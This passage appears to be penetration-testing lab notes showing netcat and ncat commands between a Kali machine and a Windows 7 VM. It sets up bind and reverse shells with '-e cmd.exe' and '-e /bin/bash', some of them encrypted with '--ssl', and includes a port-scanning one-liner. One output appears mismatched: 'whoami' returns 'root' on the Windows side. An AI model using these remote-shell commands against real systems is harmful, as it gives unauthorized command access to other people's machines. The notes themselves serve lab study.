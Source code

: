 ```sh
# Win 7
nc -lvp 4446 -e cmd.exe
```

```sh
# Kali
nc -nv 192.168.1.23 4446

C:\Users\Offsec>ipconfig
...
```

#### 2.1.4.2 - Reverse Shell Scenario
```sh
# Win 7
nc -nlvp 4446
```

```sh
# Kali
nc -nv 192.168.1.23 4446 -e /bin/bash
```

```sh
# Win 7
whoami
root
```

#### Netcat as a Port Monitor
```sh
watch -n1 nc -w1 -nvz 192.168.1.23 123
# -w1: timeout 1 sec, -n: no reverse lookup, -v: verbose, -z: no IO, act as a scanner
```

## `ncat`
Reverse Shell

```sh
# Kali
ncat -lnvp 4444 --allow [win ip] --ssl
# Win
ncat -nv [kali ip] 4444 -e cmd.exe --ssl
```

Bind Shell
```sh
# Win
ncat -lnvp 4444 -e cmd.exe --allow [kali ip] --ssl
# Kali
ncat -nv [win ip] 4444 --ssl
```

The `ncat` in the Windows VM produces many errors, even after updating. To update, download "nmap-7.60-win32.zip" and reinstall the nmap suite, which includes the latest version of ncat. Be warned, errors will still occur.
